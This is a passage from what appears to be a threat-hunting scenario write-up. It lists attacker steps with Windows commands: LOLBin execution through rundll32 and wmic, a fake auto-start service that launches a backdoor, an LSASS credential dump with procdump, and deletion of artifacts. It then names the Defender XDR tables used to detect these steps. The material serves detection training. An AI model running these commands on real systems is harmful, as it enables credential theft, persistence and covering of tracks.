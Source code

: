 4. **Executed Malicious Commands Using LOLBins (Living-Off-the-Land Binaries)**  
   - Used `rundll32.exe` to execute malicious payloads without triggering alerts:  
     ```powershell
     rundll32.exe C:\Users\Public\malicious.dll,EntryPoint
     ```

   - Used `wmic.exe` for remote execution on other machines:  
     ```powershell
     wmic process call create "cmd.exe /c C:\Users\Public\payload.exe"
     ```

5. **Created a Rogue Security Service to Restart Malicious Processes**  
   - The attacker ensured persistence by creating a fake service that restarts malicious processes:  
     ```powershell
     sc create "FakeSecurityService" binPath= "C:\Windows\System32\cmd.exe /c powershell.exe -c Start-Process C:\Users\Public\backdoor.exe" start= auto
     ```

6. **Exfiltrated Credentials via LSASS Dumping with ProcDump**  
   - Used `procdump.exe` to extract credentials from LSASS without using Mimikatz:  
     ```powershell
     procdump.exe -ma lsass.exe C:\Users\Public\lsass.dmp
     ```

7. **Removed Artifacts to Cover Tracks**  
   - Deleted RDP-related forensic artifacts:  
     ```powershell
     del /F /Q C:\Users\Public\lsass.dmp
     del /F /Q C:\Users\Public\malicious.dll
     ```

---

## **Tables Used to Detect Evasion Techniques**  

### **DeviceEvents**  
| **Parameter** | **Description** |
|--------------|----------------|
| **Name** | DeviceEvents |
| **Info** | [Microsoft Documentation](https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceevents-table) |
| **Purpose** | Used to detect event log clearing, security tool tampering, and Defender disabling. |

---

### **DeviceRegistryEvents**  
| **Parameter** | **Description** |
|--------------|----------------|
| **Name** | DeviceRegistryEvents |
| **Info** | [Microsoft Documentation](https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceregistryevents-table) |
| **Purpose** | Used to detect registry modifications related to security feature tampering. |

---